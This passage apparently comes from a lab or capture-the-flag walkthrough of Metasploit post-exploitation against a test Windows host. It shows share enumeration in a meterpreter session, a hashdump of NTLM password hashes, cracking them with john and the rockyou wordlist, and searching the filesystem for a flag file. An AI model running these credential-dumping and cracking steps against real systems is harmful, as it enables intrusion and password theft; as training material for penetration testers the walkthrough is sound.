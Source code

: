 Set the session to number 2 and run the module.

```bash
msf6 post(windows/gather/enum_shares) > set SESSION 2
SESSION => 2
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.109.254)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed
```

### NTLM Hashes

By running the `hashdump` command, we can get get the target systems password hash file.

```bash
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:0160a066349f782d470cfb8a9514b95f:::
```

After the hashes are dumped, we can use john to crack them. If the hashdump was from a windows NT machine, we need to add the `--format=NT` flag.

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt
```
### Flags

We can then search for flags by using the search command.

```bash
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 17:44:27 +1000

meterpreter > pwd
C:\Windows\system32
meterpreter > cd ../../
meterpreter > cd Program\ Files\ (x86)//Windows\ Multimedia\ Platform
```